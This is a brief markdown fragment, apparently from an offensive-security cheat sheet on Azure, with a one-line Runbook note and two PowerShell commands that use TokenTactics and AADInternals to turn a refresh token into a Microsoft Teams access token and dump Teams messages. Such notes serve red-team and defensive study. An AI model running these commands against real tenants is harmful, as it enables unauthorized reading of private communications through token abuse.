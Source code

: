 # Azure Services

## Azure Runbook

Runbook must be SAVED and PUBLISHED before running it.



## Office 365

### Extracting Microsoft Teams Messages

```ps1
TokenTacticsV2> RefreshTo-MSTeamsToken -domain domain.local
AADInternals> Get-AADIntTeamsMessages -AccessToken $MSTeamsToken.access_token | Format-Table id,content,deletiontime,*type*,DisplayName
```
